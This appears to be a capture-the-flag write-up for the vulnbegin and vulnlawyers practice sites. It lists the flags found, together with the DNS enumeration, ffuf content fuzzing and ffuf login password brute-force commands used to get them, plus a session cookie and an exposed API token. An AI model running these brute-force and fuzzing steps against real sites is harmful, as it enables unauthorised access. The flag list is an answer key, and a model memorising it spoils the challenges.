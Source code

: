 # ctfchallenge_co_uk


# target: vulnerable website for ctf(ctfchallenge.co.uk)

## easy | vulnbegin | 9 flags

### cookie used during automation: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9


### 4-flag : 
robots.txt --> http://www.vulnbegin.co.uk/secret_d1rect0y/ -->
```[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]```

tools used and documentation:
#### nslookup -type=any vulnbegin.co.uk 8.8.8.8
The above command will query the DNS server for any default A,TXT,NS,SOA,SPF records. You will see from the results there is a TXT record with a flag.

### 1-flag: ```[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]```

sublist3r -d vulnbegin.co.uk

The above query uses OSINT to discover domain names from various search engines and other data resources, from the result you will find an obscure subdomain if you visit it this will show you a flag

result:
server.vulnbegin.co.uk

v64hss83.vulnbegin.co.uk

### 3-flag 
```[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]``` on server.vulnbegin.co.uk
 
 ### 2-flag from sublister : ```[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]```


dnsrecon for finding subdomains using brute force
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt


content discovery using ffuf:
ffuf -p 0.1 -t 1 -w ~/wordlists/content.txt -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -u http://www.vulnbegin.co.uk/FUZZ


in this case username was admin but the response code is 200 for both valid and invalid requests:
to filter out 200 requets i used command:


ffuf -p 0.1 -t 1 -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200





### 5-flag 	```[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]```





### 6-flag from brute forcing the directry or it can be achieved using ffuf
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"```[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}```


### 7-flag from adding X-Token we got from cpanel/env 
{"messaged":"User Authenticated","flag":```"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"```}


### 8-flag 
"flag":```"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]"```,

### 9-flag after indirect object reference for user 5 
```[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]```


# vulnlawyers | easy | target:vulnlawyers.co.uk

#### cookie used during fuzzing ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9

subdomain from sublister:
www.vulnlawyers.co.uk
data.vulnlawyers.co.uk
### flag-1
```[^FLAG^E78DEBBFDFBEAFF1336B599B0724A530^FLAG^]```



### flag-2  in the redirect 302 request when login --> denied
where response look like
```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 05 Jul 2021 18:09:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9; expires=Wed, 04-Aug-2021 18:09:09 GMT; Max-Age=2592000; path=/; domain=.vulnlawyers.co.uk
Location: /denied
Content-Length: 1119

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>VulnLawyers - Old Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <link href="/template-manager/style.css" rel="stylesheet">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <h1 style="padding-top:100px;text-align: center;color: #060505;letter-spacing: -1px;font-weight: bold">VulnLawyers</h1>
            <h3 class="text-center">We'll win that case!</h3>
        </div>
    </div>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

```[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]```

hint from flag-2 : /lawyers-only 

## flag-3 from data.vulnlawyers.co.uk/users after fuzzing
```
{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^25032EB0D322F7330182507FBAA1A55F^FLAG^]"}
```

### flag-4 after brute force from intruder 

```
[^FLAG^7F1ED1F306FC4E3399CEE15DF4B0AE3C^FLAG^]

```

